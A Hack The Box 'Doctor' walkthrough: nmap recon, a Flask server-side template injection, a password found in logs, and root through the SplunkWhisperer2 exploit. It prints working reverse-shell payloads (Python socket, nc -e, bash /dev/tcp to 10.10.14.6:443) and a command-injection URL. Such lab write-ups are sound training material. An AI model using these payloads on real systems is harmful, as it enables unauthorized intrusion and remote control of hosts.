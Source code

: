 # HTB: Doctor Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🧭 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.209
nmap -p 22,80,8089 -sCV -oA scans/nmap-tcpscripts 10.10.10.209
```

- Ports:
  - 22: [SSH](SSH) (OpenSSH 8.2p1)
  - 80: [HTTP](HTTP) (Apache/2.4.41)
  - 8089: HTTPS (Splunkd)

Discovered a subdomain: `doctors.htb`

---

## 🌐 Web Enumeration

### Port 80
- Default Apache page
- Discovered email: `info@doctors.htb`
- Add `doctors.htb` to `/etc/hosts`

### doctors.htb
- Werkzeug Python web server with Flask
- Create account ➝ login ➝ "New Message"
- URL `/archive` provides RSS output ➝ SSTI confirmed

```jinja
{{7*7}} ➝ renders to 49 in /archive
```

---

## 🧨 Exploitation - Shell as `web`

### Server-Side Template Injection (SSTI)
```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
  {% if "warning" in x.__name__ %}
    {{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.6\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\", \"-i\"])'").read()}}
  {% endif %}
{% endfor %}
```

### Or Command Injection via POST
```bash
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
```

---

## 👤 Shell as `shaun`

### Inspect logs due to `web` being in `adm` group:
```bash
grep -r passw /var/log
```

Found:
```bash
POST /reset_password?email=Guitar123
```

```bash
su - shaun
Password: Guitar123
cat /home/shaun/user.txt
```

---

## 🔐 Privilege Escalation to `root`

### SplunkWhisperer2 RCE Exploit

#### Get Splunk creds:
- shaun:Guitar123 also works for Splunk 8089

#### Run SplunkWhisperer2
```bash
python3 PySplunkWhisperer2_remote.py \
  --host 10.10.10.209 \
  --lhost 10.10.14.6 \
  --username shaun \
  --password Guitar123 \
  --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
```

### Catch root shell:
```bash
nc -lnvp 443
id
cat /root/root.txt
```

---

## 🧠 Beyond Root

### Flask Session Hijack Post-Reset
- Cookies store `_user_id` ➝ reused after box reset to impersonate `shaun`

### Command Injection in FlaskForm
```python
os.system(f'/bin/curl --max-time 2 {url} -o {path}')
```

Any user input containing `$(...)` or backticks can result in RCE.

---

**Techniques**
- Flask SSTI ➝ RCE
- Log analysis ➝ Password reuse
- SplunkWhisperer2 ➝ Root RCE